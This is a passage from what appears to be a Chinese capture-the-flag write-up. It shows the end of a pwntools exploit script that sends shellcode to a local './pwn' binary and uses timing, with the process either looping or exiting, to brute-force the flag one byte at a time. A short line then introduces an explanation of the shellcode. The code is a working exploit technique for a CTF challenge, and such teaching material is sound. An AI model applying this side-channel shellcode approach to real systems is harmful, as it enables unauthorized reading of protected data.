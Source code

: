```plain
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
    p.send(shellcode)
flag = "flag{"

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

[![](assets/1701612140-6af9f1a7db93068fa8754358f53752fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203714-768b8ff8-3b68-1.png)

解释一下 exp，主要是解释 shellcode
